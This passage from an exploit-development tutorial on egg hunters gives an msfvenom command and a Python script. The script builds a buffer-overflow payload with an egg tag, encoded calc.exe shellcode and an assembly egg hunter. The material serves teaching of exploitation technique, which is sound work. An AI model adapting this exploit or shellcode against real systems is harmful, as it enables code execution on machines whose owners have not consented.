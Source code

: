 Now that we have landed at our egg all we still need to do is generate a payload and add it to our exploit code. I used MSFVenom to generate a payload for this exploit.
<p align="center"><img src="/images/basics-of-exploit-development-3-egg-hunters/msfvenom.png"/></p>
**Command:** 
```
Msfvenom -a x86 -p windows/exec CMD=calc.exe -b ‘\x00\x0A\x0D’ -f python
```

Now our exploit code should look something like this:

```
f = open("crash-8.txt", "wb")  
  
padding1   = b"ERCDERCD" #Tag the egg hunter will search for  
padding1  += b"\x90" * 100  
  
# msfvenom -a x86 -p windows/exec -e x86/shikata_ga_nai -b '\x00\x0a\x0d'  
# cmd=calc.exe exitfunc=thread -f python  
payload =  b""  
payload += b"\xdb\xce\xbf\x90\x28\x2f\x09\xd9\x74\x24\xf4\x5d\x29"  
payload += b"\xc9\xb1\x31\x31\x7d\x18\x83\xc5\x04\x03\x7d\x84\xca"  
payload += b"\xda\xf5\x4c\x88\x25\x06\x8c\xed\xac\xe3\xbd\x2d\xca"  
payload += b"\x60\xed\x9d\x98\x25\x01\x55\xcc\xdd\x92\x1b\xd9\xd2"  
payload += b"\x13\x91\x3f\xdc\xa4\x8a\x7c\x7f\x26\xd1\x50\x5f\x17"  
payload += b"\x1a\xa5\x9e\x50\x47\x44\xf2\x09\x03\xfb\xe3\x3e\x59"  
payload += b"\xc0\x88\x0c\x4f\x40\x6c\xc4\x6e\x61\x23\x5f\x29\xa1"  
payload += b"\xc5\x8c\x41\xe8\xdd\xd1\x6c\xa2\x56\x21\x1a\x35\xbf"  
payload += b"\x78\xe3\x9a\xfe\xb5\x16\xe2\xc7\x71\xc9\x91\x31\x82"  
payload += b"\x74\xa2\x85\xf9\xa2\x27\x1e\x59\x20\x9f\xfa\x58\xe5"  
payload += b"\x46\x88\x56\x42\x0c\xd6\x7a\x55\xc1\x6c\x86\xde\xe4"  
payload += b"\xa2\x0f\xa4\xc2\x66\x54\x7e\x6a\x3e\x30\xd1\x93\x20"  
payload += b"\x9b\x8e\x31\x2a\x31\xda\x4b\x71\x5f\x1d\xd9\x0f\x2d"  
payload += b"\x1d\xe1\x0f\x01\x76\xd0\x84\xce\x01\xed\x4e\xab\xee"  
payload += b"\x0f\x5b\xc1\x86\x89\x0e\x68\xcb\x29\xe5\xae\xf2\xa9"  
payload += b"\x0c\x4e\x01\xb1\x64\x4b\x4d\x75\x94\x21\xde\x10\x9a"  
payload += b"\x96\xdf\x30\xf9\x79\x4c\xd8\xd0\x1c\xf4\x7b\x2d"  
	  
egghunter   = b"\x8B\xFD"                # mov edi,ebp                               
egghunter  += b"\xB8\x45\x52\x43\x44"    # mov eax,44435245                          
egghunter  += b"\x47"                    # inc edi                                   
egghunter  += b"\x39\x07"                # cmp dword ptr ds:[edi],eax              
egghunter  += b"\x75\xFB"                # jne 48DFEEB                             
egghunter  += b"\x83\xC7\x04"            # add edi,4                                
egghunter  += b"\x39\x07"                # cmp dword ptr ds:[edi],eax               
egghunter  += b"\x75\xF4"                # jne 48DFEEE                              
egghunter  += b"\xFF\xE7"                # jmp edi                                  
	  
buf = padding1 + payload   
buf += b"\x90" * (570 - len(padding1 + payload))  
buf += egghunter  
buf += b"\x90" * (620 - len(buf))  
```